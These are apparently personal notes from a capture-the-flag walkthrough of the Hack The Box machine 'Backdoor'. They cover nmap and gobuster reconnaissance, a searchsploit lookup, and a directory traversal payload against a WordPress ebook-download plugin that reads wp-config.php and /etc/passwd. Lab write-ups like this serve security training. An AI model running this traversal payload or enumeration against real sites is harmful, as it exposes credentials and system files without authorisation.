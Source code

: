 IP= 10.129.204.81

First we run our nmap scan to see what ports are open 
# nmap 
![[Pasted image 20211202124453.png]]
running 
nmap -p- -vvv $IP -oA nmap/nmap    
to get all open ports and then we can run 
nmap -sC -sV -p 80,22,1337 -vvv $IP -oA nmap/nmap.detail

![[Pasted image 20211202124655.png]]

# Searching for port 1337 
after searching for a while i didn't find a lot so we ran gobuster and wpscan to see if we can find anything

# gobuster 
gobuster dir -u backdoor.htb -w ~/Desktop/Tools/SecLists/Discovery/Web-Content/raft-medium-words.txt -x php,txt                                                                                     


![[Pasted image 20211202133040.png]]


/wp-admin             (Status: 301) [Size: 315] [--> http://backdoor.htb/wp-admin/]                                                                                                                                
/wp-includes          (Status: 301) [Size: 318] [--> http://backdoor.htb/wp-includes/]                                                                                                                             
/index.php            (Status: 301) [Size: 0] [--> http://backdoor.htb/]                                                                                                                                           
/wp-content           (Status: 301) [Size: 317] [--> http://backdoor.htb/wp-content/]        

trying to access wp-includes we are in but we didn't find much
running gobuster again on wp-includes

gobuster dir -u backdoor.htb/wp-includes/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -z                     didn't get much either

running gobuster again on wp-content

gobuster dir -u backdoor.htb/wp-content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt -z        
![[Pasted image 20211202133224.png]]
checking them one by one we found in 
/plugins
![[Pasted image 20211202133253.png]]
![[Pasted image 20211202133304.png]]
![[Pasted image 20211202133355.png]]
there is a plugin called ebook
looking on searchsploit
![[Pasted image 20211202133432.png]]

let's try first one Directory Traversal

searchsploit -x php/webapps/39575.txt

/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

![[Pasted image 20211202133535.png]]

and now we have wordpress config file

we got /etc/passwd
![[Pasted image 20211202133847.png]]

